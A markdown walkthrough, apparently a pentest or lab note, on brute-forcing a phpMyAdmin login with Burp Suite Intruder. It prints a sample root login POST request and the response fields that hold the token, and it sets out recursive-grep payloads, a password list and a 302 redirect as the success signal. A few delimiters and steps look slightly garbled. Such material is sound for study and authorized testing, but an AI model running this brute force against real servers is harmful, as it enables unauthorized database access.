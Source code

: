 ## Sample post login request
1. Cookie with the value: phpMyAdmin
2. set_session post data: same value as the phpMyAdmin cookie
3. a password that we want to try
4. a token value in the post data
```
POST /phpmyadmin/index.php?route=/ HTTP/1.1
Host: nix
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: null
Connection: close
Cookie: phpMyAdmin=tcrg5ptlfkit2mik13vbsi2aah; pma_lang=en
Upgrade-Insecure-Requests: 1

set_session=tcrg5ptlfkit2mik13vbsi2aah&pma_username=root&pma_password=hello&server=1&route=%2F&token=504a3960426a23433839432548265756
```
## let's look at the response to the login request:
1. notice the value in the hidden set_session input value
```
<form method="post" id="login_form" action="index.php?route=/" name="login_form" class="disableAjax hide login js-show form-horizontal">
  <fieldset>
    <legend class="col-form-label">
      <input type="hidden" name="set_session" value="0epta11d41e5bqdjcon0pt37j4">
            Log in      <a href="./doc/html/index.html" target="documentation"><img src="themes/dot.gif" title="Documentation" alt="Documentation" class="icon ic_b_help"></a>
    </legend>
```
2. notice the hidden token value
```
<div class='hide js-show'>
        <form method="get" action="index.php?route=/" class="disableAjax">
    <input type="hidden" name="db" value=""><input type="hidden" name="table" value=""><input type="hidden" name="token" value="2b3256584933672d4e29672d7e69584d">
```
## if we send the request to intruder, and got the options tab, we can extract useful information from responses and feed them to the attack results table.
1. we grab from `_session" value="` to `">` for the cookie value
2. we grab from `token" value="` to `:>` for the token value
![phpma-brute-1](phpma-brute-1.jpg)

## we then configure the payload locations
![phpma-brute-2](phpma-brute-2.jpg)

## and set them for their respective values
1. recursive grep: from `_session" value="` to `">` for the cookie value
2. recursive grep: from `_session" value="` to `">` for the cookie value
3. simple list: <PASSWORD_LIST>
4. recursive grep: from `token" value="` to `:>` for the token value
![phpma-brute-3](phpma-brute-3.jpg)

## after that, we set the resource pool for 1 max concurrent request to be compatible with our recursive grep payloads
![phpma-brute-4](phpma-brute-4.jpg)

## we then launc the attack and get a 302 redirect when the password is correct
![phpma-brute-5](phpma-brute-5.jpg)